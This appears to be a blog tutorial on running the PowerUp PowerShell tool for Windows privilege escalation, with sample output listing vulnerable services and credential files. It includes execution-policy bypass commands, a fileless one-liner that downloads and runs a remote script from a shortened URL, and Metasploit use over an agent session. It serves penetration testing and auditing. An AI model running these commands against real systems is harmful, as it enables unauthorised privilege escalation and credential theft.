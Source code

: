 To load up PowerUp, first download the raw script (https://raw.githubusercontent.com/HarmJ0y/PowerUp/master/PowerUp.ps1) to a local location, and then launch Powershell:



C:> powershell.exe -nop -exec bypass
Then import the PowerUp module with the following:

PS C:\> Import-Module .\PowerUp.ps1
All of the PowerUp cmdlets will now be exposed and tab completable (Get-[tab]). To get more information on any command, use get-help [cmdlet], with an optional -full flag to return complete information. I.E. “Get-Help Get-ServiceEXEPerms -full“. To get a list of all the available functions, check the README.md (https://github.com/HarmJ0y/PowerUp/blob/master/README.md). If you want to output your results to a file, I recommend using the Powershell Out-File cmdlet, I.E. ​”PS C:\> Get-ServicePerms | Out-File -Encoding ASCII checks.txt” (the -encoding flag is used since since Powershell defaults to Unicode).

The most common way I end up using PowerUp is by using the Invoke-AllChecks function, which runs through all relevant checks for the machine and outputs a status report:

PS C:\> Invoke-AllChecks | Out-File -Encoding ASCII checks.txt
Sidenote: there are a few other ways you can run the Invoke-AllChecks functionality in the field, particularly over a Meterpreter (or Beacon) agent. One option is to upload the PowerUp.ps1 script to the machine, drop into a shell, and execute the following command:

C:\> powershell.exe -exec bypass -Command “& {Import-Module .\PowerUp.ps1; Invoke-AllChecks}”
If you want to invoke everything without touching disk, use something like this:

C:\> powershell -nop -exec bypass -c “IEX (New-Object Net.WebClient).DownloadString(‘http://bit.ly/1mK64oH’); Invoke-AllChecks”
There’s also a Metasploit module for running powershell commands through a session, post/windows/manage/powershell/exec_powershell. Before you use this module, first append “Invoke-AllChecks” to the end of PowerUp.ps1 on your attacker machine, and then specify the local path to the script in the module options. Metasploit will upload the script, run it on the target, retrieve the results and save them back to your local machine.

Now, let’s take a look at that example report:

Running Invoke-AllChecks
Checking for unquoted service paths...
[+] Unquoted service path: CustomSVC - C:\Users\adam\Documents\Visual Studio 2008\Projects\Service\Service\bin\Release\service.exe
Checking service executable permissions...
[+] Vulnerable service executable: CustomSVC - C:\Users\adam\Documents\Visual Studio 2008\Projects\Service\Service\bin\Release\service.exe
Checking service permissions...
[+] Vulnerable service: CustomAPP - C:\Custom\deploy.exe
Checking for unattended install files...
[+] Unattended install file: C:\Windows\Panther\Unattended.xml
Checking %PATH% for potentially hijackable service .dll locations...
Checking for AlwaysInstallElevated registry key...
[+] AlwaysInstallElevated is enabled for this machine!
Checking for Autologon credentials in registry...
We definitely have some interesting output to check out here. The first thing I could check out is the unattended installation file at C:\Windows\Panther\Unattended.xml- this file might have a base64-encoded deployment password that would give us a quick win.

